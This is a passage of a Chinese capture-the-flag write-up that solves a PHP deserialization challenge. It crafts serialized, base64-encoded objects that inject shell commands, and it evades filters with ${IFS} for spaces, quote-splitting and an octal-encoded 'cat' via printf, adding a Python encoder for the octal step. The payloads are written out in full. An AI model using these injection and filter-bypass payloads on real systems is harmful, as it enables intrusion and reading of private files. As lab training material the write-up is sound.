 上述代码可以得到命令的base64编码。

将上述base64编码结果以post形式提交进去。

接下来思路就放在命令执行绕过过滤即可。

![img](https://i-blog.csdnimg.cn/blog_migrate/0c1513f9052e56fa29f1a682ca1443e2.png)

看到了"flag_1s_here”文件夹，于是我们查看一下该文件夹下目录；于是执行命令"ls flag_1s_here"；**此处空格用${IFS}绕过。**

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
 
$o=new ease("ping",array('l""s${IFS}f""lag_1s_here'));
$s = serialize($o);
echo base64_encode($s);
?>
```

命令cat flag_1s_here/flag_831b69012c67b35f.php。

/绕过方式：**利用oct编码（八进制）绕过；$(printf "\154\163")//ls命令**

oct绕过：

```py
str1 = "cat flag_1s_here/flag_831b69012c67b35f.php"
arr = []
for i in str1:
    #对字符先转换为ASCII码，再转换为八进制
    r = oct(ord(i))
    #这个主要是为了将八进制前面的0o替换掉
    r=str(r).replace("0o","")
    arr.append(r)
s = "\\"
# print(arr)
#将所有的八进制组合，最终的结果第一个地方应该再添加一个\
p=s.join(arr)
print(p)
```

对执行后的结果再次进行base64编码

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
$o=new ease("ping",array('$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
$s = serialize($o);
 
```